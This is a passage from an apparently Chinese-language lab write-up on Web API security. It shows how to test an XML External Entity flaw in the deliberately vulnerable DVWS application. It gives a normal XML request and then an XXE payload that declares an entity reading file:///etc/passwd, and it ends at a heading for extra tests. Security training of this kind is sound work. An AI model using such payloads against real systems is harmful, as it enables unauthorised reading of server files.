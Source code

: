 ## 2. DVWS | XML External Entity Processing

提交正常请求:
```
<name>Mr.Bingo</name>
```

![](Web-API接口安全了解/screenshot21.png)
提交payload:
```
<?xml version="1.0"?> <!DOCTYPE bingo [  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><name>&xxe;</name>
```
![](Web-API接口安全了解/screenshot24.png)

额外测试：
